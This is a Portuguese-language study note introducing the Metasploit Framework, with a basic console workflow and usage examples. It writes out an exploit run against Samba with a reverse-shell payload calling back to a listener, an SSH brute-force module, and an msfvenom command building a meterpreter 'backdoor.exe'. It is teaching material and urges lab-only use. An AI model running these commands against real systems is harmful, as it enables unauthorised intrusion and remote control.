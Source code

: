 ```yaml
---
title: Metasploit
description: Nmap - O que e
tags:
  - "#Ferramentas"
lastmod: 2025-10-02
date: 2025-10-02
weight: 31
---
```

---
# Conceito Geral

O **Metasploit Framework** é uma das ferramentas mais conhecidas no mundo de **pentest** e **segurança ofensiva**.  
Ele é um **framework de exploração** que fornece uma coleção enorme de **exploits, payloads, scanners, auxiliares e pós-exploração**, facilitando a identificação e exploração de vulnerabilidades em sistemas.

Criado originalmente em **2003**, hoje é mantido pela **Rapid7** e está disponível em código aberto.

---
## Estrutura básica

O Metasploit possui **quatro componentes principais**:

1. **Exploits** → Código que aproveita falhas de segurança.
2. **Payloads** → Código executado após o exploit (ex: abrir uma shell).
3. **Auxiliaries** → Módulos auxiliares como scanners, sniffers, fuzzers.
4. **Post** → Scripts para atividades de pós-exploração.

---
## Como usar (fluxo básico)

1. **Iniciar o console**
```
msfconsole
```

2. **Buscar por exploits ou módulos**
   ```
   search samba
   ```

3. **Selecionar um módulo**
   ```
   use exploit/unix/samba/trans2open
   ```

4. **Ver opções do módulo**
   ```
   show options
   ```

5. **Configurar parâmetros**
 ```
set RHOST 192.168.1.10
set RPORT 445
 ```

6. **Definir o payload**
```
set PAYLOAD linux/x86/shell_reverse_tcp
set LHOST 192.168.1.100
```

7. **Executar o exploit**
```
exploit
```

---

## Exemplos de uso útil

* **Scanner de portas e serviços** (sem precisar de exploit):
```
use auxiliary/scanner/portscan/tcp
```

* **Força bruta em serviços**:
```
use auxiliary/scanner/ssh/ssh_login
```

* **Criar payload com o msfvenom**:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > backdoor.exe
```

---
## Dicas práticas

- Use em **ambiente controlado** (laboratórios/VMs), nunca em redes de terceiros sem permissão.
- Combine com **Nmap** → escaneie a rede primeiro e depois use os exploits correspondentes.
- Sempre rode `show options` antes de executar, muitos erros vêm de configurações incompletas.
- O módulo `searchsploit` (do exploit-db) é um bom complemento para achar exploits e depois usá-los no Metasploit.
- O **Meterpreter** é um dos payloads mais poderosos: permite capturar tela, keylogger, pivoting e muito mais.

---